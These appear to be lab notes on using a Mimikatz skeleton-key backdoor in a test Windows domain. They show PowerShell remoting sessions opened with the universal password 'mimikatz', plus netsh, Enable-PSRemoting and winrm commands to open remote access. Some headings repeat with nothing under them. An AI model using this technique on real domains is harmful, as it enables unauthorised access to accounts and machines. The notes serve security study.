



Powershell Session on a Target machine of the domain
2. Now we can access to any machine with:
◇ a valid Username
◇ password: “mimikatz”
PS> Enter-PSSession -ComputerName <hostname>.<FQDN> -Credential <account>
▪ To know the Credential account of the Target machine(on the target machine):
 ▪ To know the hostname of the Target machine(on the target machine):
PS> Enter-PSSession -ComputerName testdc.daniele.local -Credential daniele\administrator
The remote machine must have first WinRM service and Network Discovery enabled to allow remote access from remote computers.
PS> netsh advfirewall firewall set rule group=”network discovery” new enable=yes #enable network discovery
PS> Enable-PSRemoting -force #locally on the target machine, we can do it in TTEST phase
PS> winrm quickconfig #set WinRM to autostart
▪ To know the Credential account of the Target machine(on the target machine):
 ▪ To know the hostname of the Target machine(on the target machine):
PS> Enter-PSSession -ComputerName superman.daniele.local -Credential daniele\ckent
When we are prompted for a password, we can insert “mimikatz” or the original password of the account
